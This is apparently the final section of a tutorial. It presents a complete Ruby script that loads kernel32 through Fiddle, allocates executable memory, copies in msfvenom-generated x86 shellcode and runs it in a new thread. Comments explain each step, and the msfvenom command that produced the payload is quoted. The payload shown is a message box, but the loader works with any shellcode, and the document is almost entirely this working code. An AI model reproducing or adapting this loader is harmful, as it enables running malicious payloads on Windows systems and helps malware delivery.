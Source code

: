 ## The Final Code

The following is wrapping all the C code into ruby. Read the comment in the code to understand each step.

```ruby
require 'fiddle'
require 'fiddle/import'
require 'fiddle/types'

# msfvenom -a x86 --platform Windows -p windows/messagebox TEXT="@KINGSABRI" -f ruby --smallest
shellcode =
    "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64" +
    "\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e" +
    "\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60" +
    "\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b" +
    "\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01" +
    "\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d" +
    "\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01" +
    "\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01" +
    "\xe8\x89\x44\x24\x1c\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89" +
    "\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45" +
    "\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff" +
    "\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64" +
    "\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56" +
    "\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c\x24" +
    "\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67" +
    "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89" +
    "\xe3\x68\x52\x49\x58\x20\x68\x47\x53\x41\x42\x68\x40\x4b" +
    "\x49\x4e\x31\xc9\x88\x4c\x24\x0a\x89\xe1\x31\xd2\x52\x53" +
    "\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08"

include Fiddle
# Load kernel32.dll class
puts "[-] Loading kernel32.dll"
kernel32 = Fiddle.dlopen('kernel32')

# allocate a virtual memeory for our shellcde
puts "[-] VirtualAlloc"
ptr = Function.new(kernel32['VirtualAlloc'], [4,4,4,4], 4).call(0, shellcode.size, 0x3000, 0x40)

# change the protection of the allocated memory (optional)
Function.new(kernel32['VirtualProtect'], [4,4,4,4], 4).call(ptr, shellcode.size, 0, 0)

# create a buffer that contains our shellcode
puts "[-] Create buffer"
buf = Fiddle::Pointer[shellcode]

# copy the buffer to the allocated our allocated memory
puts "[-] RtlMoveMemory"
Function.new(kernel32['RtlMoveMemory'], [4, 4, 4], 4).call(ptr, buf, shellcode.size)

# create a thread that executes the shellcode that allocated in the memory
puts "[-] CreateThread"
thread = Function.new(kernel32['CreateThread'], [4,4,4,4,4,4], 4).call(0, 0, ptr, 0, 0, 0)

# wait forever for the shellcode thread execution
puts "[-] WaitForSingleObject"
Function.new(kernel32['WaitForSingleObject'], [4,4], 4).call(thread, -1)
```
